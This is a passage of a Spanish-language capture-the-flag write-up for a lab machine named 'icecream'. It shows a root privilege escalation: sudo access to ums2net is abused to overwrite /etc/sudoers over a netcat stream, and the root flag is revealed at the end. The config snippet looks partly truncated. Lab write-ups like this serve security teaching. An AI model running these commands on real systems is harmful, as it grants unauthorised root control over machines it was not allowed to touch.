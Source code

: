 ```shell
cd /tmp
echo "ice ALL=(ALL) NOPASSWD: ALL" > sudoers
cat > pwned.conf << EOF
7766 of=/etc/sudoers
EOF
sudo /usr/sbin/ums2net -c pwned.conf -d
```

Con esto nos quedaremos a la escucha, en otra terminal dentro de la maquina victima, aprovechemos que tenemos la `shell` del usuario `www-data` y vamos a volcar dicho archivo `sudoers` nuestro modificado mediante el puerto que tenemos escuchando como `root` por lo que va a sobreescribirlo con lo nuestro.

```shell
cd /tmp
nc <IP_VICTIM> 7766 < sudoers
```

Una vez echo esto, le daremos a `Ctrl+C` para dejarlo ya, ya que con haberlo ejecutado ya lo habremos volcado, si nos volvemos a donde tenemos la escucha de `root` del usuario `ice` veremos esto:

```
ums2net[1102]: Totally write 28 bytes to /etc/sudoers
```

Con esto vemos que se ha pasado el archivo de forma correcta, por lo que si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for ice on icecream:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User ice may run the following commands on icecream:
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: /usr/sbin/ums2net
```

Vemos que ha funcionado por lo que haremos lo siguiente para ser `root`.

```shell
sudo su
```

Info:

```
/etc/sudoers:2:11: error de sintaxis
 with the 'visudo' command as root.
          ^~~~~~~~
root@icecream:/tmp# whoami
root
```

Con esto ya seremos el usuario `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
HMViminvisible
```
